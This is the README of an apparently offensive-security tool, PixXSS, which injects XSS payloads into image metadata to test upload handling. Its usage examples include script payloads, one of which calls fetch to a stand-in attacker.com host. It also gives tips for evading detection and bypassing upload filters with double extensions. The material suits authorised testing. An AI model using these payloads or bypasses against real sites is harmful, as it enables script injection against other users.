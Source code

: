 [TOC]



# PixXSS - 图片元数据XSS注入工具

![Python](https://img.shields.io/badge/Python-3.6+-blue.svg)
![License](https://img.shields.io/badge/License-MIT-green.svg)

## 工具简介

PixXSS 是一个专业级的图片元数据注入工具，专为安全研究人员设计，用于在图片文件的各类元数据字段中注入XSS负载。该工具支持多种图片格式和元数据类型，能够帮助安全人员测试Web应用对恶意图片的防护能力。

## 功能特性

✅ **多格式支持**  

- JPEG, PNG, GIF, WEBP, TIFF, HEIF, AVIF等主流图片格式

✅ **全面元数据覆盖**  

- EXIF, IPTC, XMP等标准元数据
- PNG特有的tEXt/zTXt/iTXt块
- GIF注释扩展块

✅ **高级功能**  

- 支持批量处理多个文件
- 可选择特定元数据字段或注入全部字段
- 支持从文件或命令行直接读取payload
- 保留原始文件或输出到新文件
- 完整的执行日志记录

✅ **专业特性**  

- 自动检测exiftool依赖
- 完善的错误处理和日志系统
- 支持Unicode字符集
- 详细的帮助文档

## 安装与依赖

### 系统要求

- Python 3.6+
- exiftool (自动检测并提示安装方法)

### 安装方法

```bash
git clone https://github.com/your-repo/PixXSS.git
cd PixXSS
pip install -r requirements.txt
```

## 使用说明

### 基本用法

```bash
python PixXSS.py -I input.jpg JPEG -payload "<script>alert(1)</script>" --all
```

### 参数说明

| 参数                      | 说明                                   |
| ------------------------- | -------------------------------------- |
| `-I FILE FMT`             | 输入文件及格式(如: image.jpg JPEG)     |
| `-payload PAYLOAD`        | 直接指定XSS负载                        |
| `--payload-file FILE`     | 从文件读取XSS负载                      |
| `-o OUTPUT`               | 输出文件路径                           |
| `--all`                   | 注入所有支持的元数据字段               |
| `--FORMAT-METATYPE-FIELD` | 指定特定字段注入(如: --PNG-tEXt-Title) |

### 示例场景

1. **测试Web图片上传漏洞**

```bash
python PixXSS.py -I avatar.png PNG --payload "<svg/onload=alert(1)>" --PNG-tEXt-Description
```

2. **批量处理多张图片**

```bash
python PixXSS.py -I img1.jpg JPEG -I img2.png PNG --payload-file xss.txt --all
```

3. **针对性测试特定CMS**

```bash
python PixXSS.py -I banner.webp WEBP --payload "<img src=x onerror=fetch('https://attacker.com')>" --WEBP-XMP-dc_title
```

## 技术细节

### 支持的元数据类型

```python
SUPPORTED_FORMATS = {
    "JPEG": ["EXIF", "IPTC", "XMP"],
    "PNG": ["tEXt", "zTXt", "iTXt", "XMP"],
    # ...其他格式支持...
}
```

### 日志系统

- 实时控制台输出
- 自动记录到pixxss.log文件
- 详细调试信息

## 最佳实践

1. **靶场测试**

- 先在本地环境测试payload有效性
- 使用不同图片格式验证目标系统解析差异

2. **规避检测**

- 尝试在较少被检查的字段注入(如UserComment)
- 使用Unicode字符混淆payload

3. **高级技巧**

- 结合多字段注入增加成功率
- 使用图片双扩展名绕过过滤(如image.jpg.php)

## 免责声明

本工具仅限用于合法安全测试和研究目的。使用者需确保已获得目标系统的测试授权，未经授权使用本工具造成的任何后果由使用者自行承担。

